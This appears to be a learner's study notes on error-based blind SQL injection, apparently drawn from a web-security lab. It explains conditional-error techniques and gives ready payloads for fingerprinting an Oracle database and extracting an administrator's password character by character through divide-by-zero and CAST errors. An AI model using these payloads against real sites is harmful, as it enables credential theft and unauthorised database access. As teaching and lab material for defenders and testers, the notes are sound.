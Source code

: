 ### Error-based SQL injection
 Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts. The possibilities depend on the configuration of the database and the types of errors you're able to trigger:

 - You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as the conditional responses we looked at in the previous section. For more information, see Exploiting blind SQL injection by triggering conditional errors.
 - You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into visible ones. For more information, see Extracting sensitive data via verbose SQL error messages.



### Exploiting blind SQL injection by triggering conditional errors

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.




### Exploiting blind SQL injection by triggering conditional errors - Continued

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
```
```
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

  - With the first input, the CASE expression evaluates to 'a', which does not cause any error.
  - With the second input, it evaluates to 1/0, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

> Note
> There are different ways of triggering conditional errors, and different techniques work best on different database types. For more details, see the SQL injection cheat sheet.


To know type of databse use it

```
'||(SELECT '')||'
```

if get 500 , we any payload like this 

```
'||(SELECT '' FROM dual)||'
```

if get 200 , so this is Oracle



```
'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

this condution for test error based


#### For guess number of char' password 

```
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### For guess on chars's password

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)>'1' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

********

For sql microsoft

```
'||CAST((SELECT password FROM users LIMIT 1) AS int)--
```

This payload show password

*********

